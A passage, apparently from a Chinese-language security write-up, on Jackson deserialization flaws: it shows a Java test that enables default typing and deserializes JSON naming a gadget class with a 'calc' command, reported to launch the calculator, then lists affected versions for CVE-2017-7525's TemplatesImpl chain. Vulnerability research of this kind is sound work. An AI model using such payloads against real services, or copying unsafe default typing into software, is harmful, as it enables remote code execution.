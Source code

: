 ```bash
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Sex sex;

    public Person2(){
        System.out.println("person 构造函数");
    }

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,object == null ? "null" : object);
    }
}
```

```bash
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"fakes0u1\",\"object\":[\"jackson.Evil\",{\"cmd\":\"calc\"}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

可以成功执行 calc

## CVE-2017-7525 TemplatesImpl 利用链

### 影响版本

Jackson 2.6 系列 < 2.6.7.1

Jackson 2.7 系列 < 2.7.9.1

Jackson 2.8 系列 < 2.8.8.1

JDK 使用 1.7 版本的

### 复现

jar 包：jackson-annotations-2.7.9，jackson-core-2.7.9，jackson-databind-2.7.9，commons-codec-1.12，commons-io-2.5，spring-core-4.3.13.RELEASE。
